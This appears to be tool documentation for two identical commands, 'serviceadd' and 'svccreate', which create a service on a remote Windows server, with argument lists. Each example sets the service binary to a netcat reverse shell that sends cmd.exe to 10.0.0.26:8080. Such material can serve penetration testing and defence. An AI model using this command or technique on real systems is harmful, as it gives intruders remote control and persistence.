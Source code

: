 **Description:** Create a new service on the remote server

**Help:**
```
serviceadd [-h] -n SERVICENAME -b BINARYPATH -d DISPLAYNAME -s {auto,demand,system}
Create a new service on the remote server
```

**Example Usage:**
```
Example Usage: -b "C:\nc.exe 10.0.0.26 8080 -e cmd.exe"
```

### Arguments

- **`servicename`**: Specify the name of the new service
  - Required: Yes

- **`binarypath`**: Specify the binary path of the new service
  - Required: Yes

- **`displayname`**: Specify the display name of the new service
  - Required: Yes

- **`starttype`**: Specify the start type of the new service
  - Choices: auto, demand, system
  - Default: `demand`
  - Required: Yes

---

## `svccreate`

**Description:** Create a new service on the remote server

**Help:**
```
serviceadd [-h] -n SERVICENAME -b BINARYPATH -d DISPLAYNAME -s {auto,demand,system}
Create a new service on the remote server
```

**Example Usage:**
```
Example Usage: -b "C:\nc.exe 10.0.0.26 8080 -e cmd.exe"
```

### Arguments

- **`servicename`**: Specify the name of the new service
  - Required: Yes

- **`binarypath`**: Specify the binary path of the new service
  - Required: Yes

- **`displayname`**: Specify the display name of the new service
  - Required: Yes

- **`starttype`**: Specify the start type of the new service
  - Choices: auto, demand, system
  - Default: `demand`
  - Required: Yes

---